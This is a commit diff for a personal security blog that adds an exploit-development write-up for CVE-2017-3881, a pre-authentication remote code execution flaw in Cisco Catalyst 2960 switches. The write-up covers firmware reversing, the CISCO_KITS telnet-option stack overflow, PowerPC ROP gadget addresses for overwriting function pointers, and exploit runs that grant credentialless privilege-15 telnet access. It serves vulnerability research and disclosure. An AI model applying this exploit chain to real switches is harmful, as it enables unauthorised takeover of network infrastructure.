

Before and after one commit to artkond/artkond.github.io, a Jekyll site: the page built from archives.md, in a window 1280 px wide. Shown: the top 825 px of the page, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
CVE-2017-3881 Cisco RCE post

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -13,7 +13,7 @@
 # you will see them accessed via {{ site.title }}, {{ site.author }}, and so on.
 # You can create any custom variable you would like, and they will be accessible
 # in the templates via {{ site.myvariable }}.
-title: '#!/bin/bash'
+title: 'Artem Kondratenko'
 author: Artem Kondratenko
 description: Security Notes
 baseurl: "" # the subpath of your site, e.g. /blog
--- /dev/null
+++ b/_posts/2017-04-10-cisco-catalyst-remote-code-execution.md
@@ -0,0 +1,440 @@
+---
+layout: post
+comments: true
+title: "CVE-2017-3881 Cisco Catalyst RCE Proof-Of-Concept"
+description: "Digging deep into CIA Vault 7 documents to craft Proof-Of-Concept remote code execution for Cisco Catalyst switches"
+---
+
+Do you still have telnet enabled on your Catalyst switches? Think twice, here's a proof-of-concept remote code execution exploit for Catalyst 2960 switch with latest suggested firmware. Check out the exploit code [here](https://github.com/artkond/cisco-rce/). What follows is a detailed write-up of the exploit development process for the vulnerability leaked from CIA's archive on March 7th 2017 and publicly disclosed by Cisco Systems on March 17th 2017. At the time of writing this post there is no patch available. Nonetheless there is a remidiation - disable telnet and use SSH instead.
+<!-- more -->
+
+## Vault 7 CIA leak
+
+A series of CIA's documents were leaked on March 7th 2017 and [published](https://wikileaks.org/ciav7p1/) on WikiLeaks. Among other publications there was an interesting preauth code execution vulnerability that affected multiple Cisco switches. This vulnerability is code-named [ROCEM](https://wikileaks.org/ciav7p1/cms/page_20250772.html) in the leaked documents. Although very few technical details were mentioned, few things stand out.
+
+The Vault 7's documents shed a light on the testing process for the actual exploit. No exploit source code is available in the leak. Two use cases are highlighted there - the tool can be launched in either interactive mode or set mode. The interactive mode sends the payload via telnet and immeditely presents the attacker with command shell in the context of the same telnet connection. Quote from the [doc](https://wikileaks.org/ciav7p1/cms/page_23134373.html):
+
+```
+Started ROCEM interactive session - successful:
+
+root@debian:/home/user1/ops/adverse/adverse-1r/rocem# ./rocem_c3560-ipbase-mz.122-35.SE5.py -i 192.168.0.254
+[+] Validating data/interactive.bin
+[+] Validating data/set.bin
+[+] Validating data/transfer.bin
+[+] Validating data/unset.bin
+****************************************
+Image: c3560-ipbase-mz.122-35.SE5
+Host: 192.168.0.254
+Action: Interactive
+****************************************
+Proceed? (y/n)y
+Trying 127.0.0.1...
+[*] Attempting connection to host 192.168.0.254:23
+Connected to 127.0.0.1.
+Escape character is '^]'.
+[+] Connection established
+[*] Starting interactive session
+User Access Verification
+Password:
+MLS-Sth#
+
+MLS-Sth# show priv
+Current privilege level is 15
+MLS-Sth#show users
+Line User Host(s) Idle Location
+* 1 vty 0 idle 00:00:00 192.168.221.40
+Interface User Mode Idle Peer Address
+MLS-Sth#exit
+Connection closed by foreign host.
+```
+
+Set mode. Modify switch memory in order to make any
+subsequent telnet connections passwordless. Quote from the [doc](https://wikileaks.org/ciav7p1/cms/page_24969226.html):
+
+```
+Test set/unset feature of ROCEM
+DUT configured with target configuration and network setup
+DUT is accessed by hopping through three flux nodes as per the CONOP
+Reloaded DUT to start with a clean device
+From Adverse ICON machine, set ROCEM:
+root@debian:/home/user1/ops/adverse/adverse-1r/rocem# ./rocem_c3560-ipbase-mz.122-35.SE5.py -s 192.168.0.254
+[+] Validating data/interactive.bin
+[+] Validating data/set.bin
+[+] Validating data/transfer.bin
+[+] Validating data/unset.bin
+
+****************************************
+Image: c3560-ipbase-mz.122-35.SE5
+Host: 192.168.0.254
+Action: Set
+****************************************
+
+Proceed? (y/n)y
+[*] Attempting connection to host 192.168.0.254:23
+[+] Connection established
+[*] Sending Protocol Step 1
+[*] Sending Protocol Step 2
+[+] Done
+root@debian:/home/user1/ops/adverse/adverse-1r/rocem#
+
+Verified I could telnet and rx priv 15 without creds:
+
+root@debian:/home/user1/ops/adverse/adverse-1r/rocem# telnet 192.168.0.254
+Trying 192.168.0.254...
+Connected to 192.168.0.254.
+Escape character is '^]'.
+
+MLS-Sth#
+
+MLS-Sth#show priv
+Current privilege level is 15
+MLS-Sth#
+```
+
+One piece of information being useful for me in researching this vulnerability was a telnet debug output. Quote from the [doc](https://wikileaks.org/ciav7p1/cms/page_17760327.html):
+
+```
+14. Confirm Xetron EAR 5355 - Debug telnet causes anomalous output
+  1.Enabled debug telnet on DUT
+  2.Set ROCEM
+  3.Observed the following:
+    000467: Jun 3 13:54:09.330: TCP2: Telnet received WILL TTY-SPEED (32) (refused)
+    000468: Jun 3 13:54:09.330: TCP2: Telnet sent DONT TTY-SPEED (32)
+    000469: Jun 3 13:54:09.330: TCP2: Telnet received WILL LOCAL-FLOW (33) (refused)
+    000470: Jun 3 13:54:09.330: TCP2: Telnet sent DONT LOCAL-FLOW (33)
+    000471: Jun 3 13:54:09.330: TCP2: Telnet received WILL LINEMODE (34)
+    000472: Jun 3 13:54:09.330: TCP2: Telnet sent DONT LINEMODE (34) (unimplemented)
+    000473: Jun 3 13:54:09.330: TCP2: Telnet received WILL NEW-ENVIRON (39)
+    000474: Jun 3 13:54:09.330: TCP2: Telnet sent DONT NEW-ENVIRON (39) (unimplemented)
+    000475: Jun 3 13:54:09.330: TCP2: Telnet received DO STATUS (5)
+    000476: Jun 3 13:54:09.330: TCP2: Telnet sent WONT STATUS (5) (unimplemented)
+    000477: Jun 3 13:54:09.330: TCP2: Telnet received WILL X-DISPLAY (35) (refused)
+    000478: Jun 3 13:54:09.330: TCP2: Telnet sent DONT X-DISPLAY (35)
+    000479: Jun 3 13:54:09.330: TCP2: Telnet received DO ECHO (1)
+    000480: Jun 3 13:54:09.330: Telnet2: recv SB NAWS 116 29
+    000481: Jun 3 13:54:09.623: Telnet2: recv SB 36 92 OS^K'zAuk,Fz90X
+    000482: Jun 3 13:54:09.623: Telnet2: recv SB 36 0 ^CCISCO_KITS^Ap
+```
+
+Note the `CISCO_KITS` option received by the service on the last line. This prooved to be an important string.
+
+## Cisco advisory
+
+On March 17th 2017 Cisco Systems [disclosed](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20170317-cmp) a vulnerability present in their switches. This diclosure was based on the documents from Vault 7:
+
+> A vulnerability in the Cisco Cluster Management Protocol (CMP) processing code in Cisco IOS and Cisco IOS XE Software could allow an unauthenticated, remote attacker to cause a reload of an affected device or remotely execute code with elevated privileges.
+
+Not much details were available at the time of writing this article, except for the following paragraph:
+
+> The Cluster Management Protocol utilizes Telnet internally as a signaling and command protocol between cluster members. The vulnerability is due to the combination of two factors:
+> - The failure to restrict the use of CMP-specific Telnet options only to internal, local communications between cluster members and instead accept and process such options over any Telnet connection to an affected device, and
+> - The incorrect processing of malformed CMP-specific Telnet options.
+
+Long story short, the vulnerability allows the attacker to exploit telnet service to gain remote code execution on the target switch. But in order to make any use of this advisory I needed more information on the matter. So I decided dig deeper into Cisco Cluster Management Protocol.
+
+## Switch clustering
+
+All right! I had two Catalyst 2960 switches for researching this vulnerability. Clustering sets a master-slave relation between switches. Master switch is able to get a privileged command shell on the slave. As Cisco mentioned in its adivisory, telnet is used as a command protocol between cluster members. Some info on clustering can be found [here](http://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst3750x_3560x/software/release/12-2_55_se/configuration/guide/3750xscg/swclus.pdf) and [here's](https://slaptijack.com/networking/cisco-catalyst-configuration-using-cluster-commands/) an example of setting up a cluster environment.
+
+Now to look for cluster traffic between them. The following should be in the master switch config:
+
+```
+cluster enable CLGRP 0
+cluster member 1 mac-address xxxx.xxxx.xxxx
+```
+
+This will add a nearby switch as a cluster slave. `rcommand <num>` allows to get command interface on a slave switch from the master's interface. This is expected by design.
+
+```
+catalyst1>rcommand 1
+catalyst2>who
+    Line       User       Host(s)              Idle       Location
+*  1 vty 0                idle                 00:00:00 10.10.10.10
+
+  Interface      User        Mode                     Idle     Peer Address
+```
+
+Let's look at the traffic generated by `rcommand`:
+
+![llc]({{ site.url }}/assets/cisco/llc_traffic.png)
+
+Hey! Where da hell is telnet traffic? Advisory clearly states:
+
+> The Cluster Management Protocol utilizes Telnet internally as a signaling and command protocol between cluster members.
+
+Ok, running `show version` to see some more traffic:
+```
+catalyst2>show version
+Cisco IOS Software, C2960 Software (C2960-LANBASEK9-M), Version 12.2(55)SE1, RELEASE SOFTWARE (fc1)
+```
+
+Aha! Telnet traffic is actualy being incapsulated into layer 2 LLC packet. If we look close enough we will notice IP packets inside with chopped MAC addresses at source and destination fields. Inside those "IP" packets reside valid TCP frames with a telnet session.
+
+![show version in cluster traffic]({{ site.url }}/assets/cisco/show_ver_cluster.png)
+
+A telnet session is usually preceded by negotiating telnet options. Among them are: terminal size, terminal type etc. Take a look at the [RFC](https://tools.ietf.org/html/rfc854) for more info.
+
+Right before being presented with the welcome `catalyst2>` message an interesting telnet option is transfered to the server side:
+
+![cluster magic string option]({{ site.url }}/assets/cisco/cisco_kits_traffic.png)
+
+Here you can see a telnet option "CISCO_KITS" sent from the master switch to the slave. The very same string present in the Vault 7 documents during the execution of exploit. Time to take a closer look at the switch internals.
+
+## Peeking at firmware
+
+Firmware is located at `flash:<version>.bin` on the switch.
+
+```
+catalyst2#dir flash:
+Directory of flash:/
+
+    2  -rwx     9771282   Mar 1 1993 00:13:28 +00:00  c2960-lanbasek9-mz.122-55.SE1.bin
+    3  -rwx        2487   Mar 1 1993 00:01:53 +00:00  config.text
+```
+
+Built-in ftp client allows to transfer this firmware to an arbitrary ftp server. Ok, now to analyze and extract contents of the file with [binwalk](https://github.com/devttys0/binwalk):
+
+```
+$ binwalk -e c2960-lanbasek9-mz.122-55.SE1.bin
+
+DECIMAL       HEXADECIMAL     DESCRIPTION
+--------------------------------------------------------------------------------
+112           0x70            bzip2 compressed data, block size = 900k
+```
+
+In order to facilitate static analisys of the resulting binary we better know the firmware load offset. This offset is printed to serial console during boot process:
+
+```
+Loading "flash:c2960-lanbasek9-mz.122-55.SE1.bin"...@@@@@@@@@@@@@@@@@@@@@@
+File "flash:c2960-lanbasek9-mz.122-55.SE1.bin" uncompressed and installed,
+entry point: 0x3000
+executing...
+```
+
+Fire up IDA and let's roll. CPU architecture is PowerPC 32-bit BigEndian. Load the binary at 0x3000:
+
+![ida offset]({{ site.url }}/assets/cisco/ida_offset.png)
+
+### Discovering strings
+
+Remember the `CISCO_KITS` string in the cluser traffic I captured before? This was my starting point. After discovering most of the functions in IDA, I was able to see the cross-refrences to the strings located at the end of firmware.
+
+![ida cisco kits string]({{ site.url }}/assets/cisco/ida_cisco_kits.png)
+
+"CISCO_KITS" string is referenced by `return_cisco_kits` function, which just returns this string as `char *`. We will focus out attention on on the `call_cisco_kits` function at `0x0004ED8C` which calls `return_cisco_kits`.
+
+![ida proximity]({{ site.url }}/assets/cisco/ida_proximity1.png)
+
+Because telnet code is rather symmetrical for client and server here we actually can see the format of the buffer that is being sent to the server side - `%c%s%c%d:%s:%d:`. This actually goes in line with the observed traffic where the sent buffer was `\x03CISCO_KITS\x012::1:`
+
+```c
+if ( telnet_struct->is_client_mode ) // client mode? then send "CISCO_KITS" string
+{
+    if ( telnet_struct->is_client_mode == 1 )
+    {
+      cisco_kits_string_2 = (char *)return_cisco_kits();
+      int_two = return_2();
+      tty_str = get_from_tty_struct((telnet_struct *)telnet_struct_arg->tty_struct);
+      *(_DWORD *)&telnet_struct_arg->tty_struct[1].field_6D1;
+      format1_ret = format_1(
+                               128,
+                               (int)&str_buf[8],
+                               "%c%s%c%d:%s:%d:",
+                               3,
+                               cisco_kits_string_2,
+                               1,
+                               int_two,
+                               tty_str,
+                               0);
+      telnet_struct = (telnet_struct *)telnet_send_sb(
+                                         (int)telnet_struct_arg,
+                                         36,
+                                         0,
+                                         &str_buf[8],
+                                         format1_ret,
+                                         v8,
+                                         v7,
+                                         v6);
+    }
+}
+```
+
+Notice something? There are two `%s` string modifiers but only one string is actually present in the traffic sample which is `CISCO_KITS`, the second one is empty and is confined between two `:` chars. Further observing the control flow of the very same function I noticed some funny behaviour when dealing with the second string (this time the server-side portion of the code):
+
+```c
+for ( j = (unsigned __int8)*string_buffer; j != ':'; j = (unsigned __int8)*string_buffer )// put data before second ":" at &str_buf + 152
+{
+    str_buf[v19++ + 152] = j;
+    ++string_buffer;
+}
+```
+
+The data we sent over in the second %s string is actually copied until `:` char without checking the destination boundaries while the target buffer resides on the stack. What does this look like? Correct! ~~Buffalo~~ buffer overflow!
+
+![buffalo overflow]({{ site.url }}/assets/cisco/buffalo_overflow.png)
+
+## Getting code execution
+
+Getting control of the instruction pointer was easy as it was overwritten with the buffer I sent (btw I used [IODIDE](https://github.com/nccgroup/IODIDE) for debugging). The problem was that heap and stack (which resides on the heap) were not executable. My best bet is that this is actually the effect of data and instruction caches enabled. Here's a slide from Felix Lindner's [presentation](https://www.blackhat.com/presentations/bh-usa-09/LINDNER/BHUSA09-Lindner-RouterExploit-SLIDES.pdf) at BlackHat 2009:
+
+![powerpc caches]({{ site.url }}/assets/cisco/caches.png)
+
+### ROPing a way out
+
+Since there wasn't a way to execute code on the stack I had to use it as a data buffer and reuse existing code in the firmware. The idea is to chain function epilogs in a meaningful way to perform arbitary memory writes. But wait, write what? Take a look at the decompiled function at `0x00F47A34`:
+
+```c
+if ( ptr_is_cluster_mode(tty_struct_var->telnet_struct_field) )
+{
+  telnet_struct_var = tty_struct_var->telnet_struct_field;
+  ptr_get_privilege_level = (int (__fastcall *)(int))some_libc_func(0, (unsigned int *)&dword_22659D4[101483]);
+  privilege_level = ptr_get_privilege_level(telnet_struct_var);// equals to 1 during rcommand 1
+  telnet_struct_1 = tty_struct_var->telnet_struct_field;
+  ptr_telnet_related2 = (void (__fastcall *)(int))some_libc_func(1u, (unsigned int *)&dword_22659D4[101487]);
+  ptr_telnet_related2(telnet_struct_1);
+  *(_DWORD *)&tty_struct_var->privilege_level_field = ((privilege_level << 28) & 0xF0000000 | *(_DWORD *)&tty_struct_var->privilege_level_field & 0xFFFFFFF) & 0xFF7FFFFF;
+}
+else
+{
+  //generic telnet session
+}
+```
+
+Interesting things happen here. First thing to emphasize is that both calls of  `ptr_is_cluster_mode` and `ptr_get_privilege_level` are made indirectly by referencing global variables. Check line at address `0x00F47B60` - `is_cluster_mode` function address is being loaded from dword at `0x01F24A7`. In a similar way the address of `get_privilege_level` is being loaded from `r3` register at `0x00F47B8C`. At this point `r3` contents is a dereferenced pointer residing at address `0x022659D4 + 0x28 + 0xC`.
+
+![Indirect calls]({{ site.url }}/assets/cisco/ida_dis.png)
+
+If the `ptr_is_cluster_mode` call returns non zero and `ptr_get_privilege` call returns a value that differs from -1 we will be presented with a telnet shell without the need to provide any credentials. Variable `privilege_level` is being checked for its value further down the code:
+
+![privilege level check]({{ site.url }}/assets/cisco/privilege_level_br.png)
+
+
+What if I could overwrite these function pointers to something that always return the desired positive value? Since stack and heap weren't directly executable I had to reuse the existing code to performs such memory writes. The following [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) gadgets were used:
+
+```nasm
+0x000037b4:
+    lwz r0, 0x14(r1)
+    mtlr r0
+    lwz r30, 8(r1)
+    lwz r31, 0xc(r1)
+    addi r1, r1, 0x10
+    blr
+```
+
+Load `is_cluster_mode` function pointer into `r30`, load the value to overwrite this pointer into `r31`. The value to overwrite is an address of a function that always returns 1:
+
+![return 1 function]({{ site.url }}/assets/cisco/return_1_function.png)
+
+
+```nasm
+0x00dffbe8:
+    stw r31, 0x34(r30)
+    lwz r0, 0x14(r1)
+    mtlr r0
+    lmw r30, 8(r1)
+    addi r1, r1, 0x10
+    blr
+```
+
+Perform the actual write.
+
+
+```nasm
+0x0006788c:
+    lwz r9, 8(r1)
+    lwz r3, 0x2c(r9)
+    lwz r0, 0x14(r1)
+    mtlr r0
+    addi r1, r1, 0x10
+    blr
+```
+
+```nasm
+0x006ba128:
+    lwz r31, 8(r1)
+    lwz r30, 0xc(r1)
+    addi r1, r1, 0x10
+    lwz r0, 4(r1)
+    mtlr r0
+    blr
+```
+
+Previous two gadgets load a pointer of `get_privilege_level` function into `r3`, and the value to overwrite it with into `r31`. The target value is a function that returns 15 (could've used this function for both writes tho):
+
+![return 15 function]({{ site.url }}/assets/cisco/return_15_function.png)
+
+
+```nasm
+0x0148e560:
+    stw r31, 0(r3)
+    lwz r0, 0x14(r1)
+    mtlr r0
+    lwz r31, 0xc(r1)
+    addi r1, r1, 0x10
+    blr
+```
+
+This epilog makes the final write and returns to the legitimate execution flow. Of course, stack frame should be formed accordingly to make this rop chain work. Check out the exploit [source](https://github.com) to see the actual stack layout for this chain to work as intended.
+
+### Running the exploit
+
+At the end of the day I ended up with a tool with the ability to patch function pointers responsible for credless connection and privilege level. Note that the exploit  code is heavily dependent on the exact firmware version used on the switch. Using exploit code for some different firmware most probably will crash the device.
+
+I used the knowledge from static and dynamic analisys of an older firmware SE1 to build an exploit for the latest suggested firmware 12.2(55)SE11. All the difference between firmware versions is different functions and pointers offsets. Also, the way the exploit works makes it easy to revert the changes back. Example:
+
+```
+$ python c2960-lanbasek9-m-12.2.55.se11.py 192.168.88.10 --set
+[+] Connection OK
+[+] Recieved bytes from telnet service: '\xff\xfb\x01\xff\xfb\x03\xff\xfd\x18\xff\xfd\x1f'
+[+] Sending cluster option
+[+] Setting credless privilege 15 authentication
+[+] All done
+$ telnet 192.168.88.10
+Trying 192.168.88.10...
+Connected to 192.168.88.10.
+Escape character is '^]'.
+
+catalyst1#show priv
+Current privilege level is 15
+catalyst1#show ver
+Cisco IOS Software, C2960 Software (C2960-LANBASEK9-M), Version 12.2(55)SE11, RELEASE SOFTWARE (fc3)
+...
+
+System image file is "flash:c2960-lanbasek9-mz.122-55.SE11.bin"
+
+...
+
+cisco WS-C2960-48TT-L (PowerPC405) processor (revision B0) with 65536K bytes of memory.
+...
+Model number                    : WS-C2960-48TT-L
+...
+
+Switch Ports Model              SW Version            SW Image
+------ ----- -----              ----------            ----------
+*    1 50    WS-C2960-48TT-L    12.2(55)SE11          C2960-LANBASEK9-M
+
+
+Configuration register is 0xF
+
+```
+
+To unset this behaviour:
+
+```
+$ python c2960-lanbasek9-m-12.2.55.se11.py 192.168.88.10 --unset
+[+] Connection OK
+[+] Recieved bytes from telnet service: '\xff\xfb\x01\xff\xfb\x03\xff\xfd\x18\xff\xfd\x1f\r\ncatalyst1#'
+[+] Sending cluster option
+[+] Unsetting credless privilege 15 authentication
+[+] All done
+$ telnet 192.168.88.10
+Escape character is '^]'.
+
+
+User Access Verification
+
+Password:
+
+```
+
+This RCE POC is available [here](https://github.com/artkond/cisco-rce/) for both firware versions. DoS version of this exploit is [available](https://github.com/artkond/cisco-rce/ios_telnet_rocem.rb) as a metasploit module, it might work for most models mentioned in the Cisco advisory.
````
Also changed, not shown: assets/cisco/buffalo_overflow.png (added), assets/cisco/caches.png (added), assets/cisco/cisco_kits_traffic.png (added), assets/cisco/cluster_mode1.png (added), assets/cisco/cluster_mode2.png (added), assets/cisco/for_loop.png (added), assets/cisco/ida_cisco_kits.png (added), assets/cisco/ida_client_mode.png (added), assets/cisco/ida_dis.png (added), assets/cisco/ida_offset.png (added), assets/cisco/ida_powerpc.png (added), assets/cisco/ida_proximity1.png (added), assets/cisco/llc_traffic.png (added), assets/cisco/privilege_level_br.png (added), 3 more files.
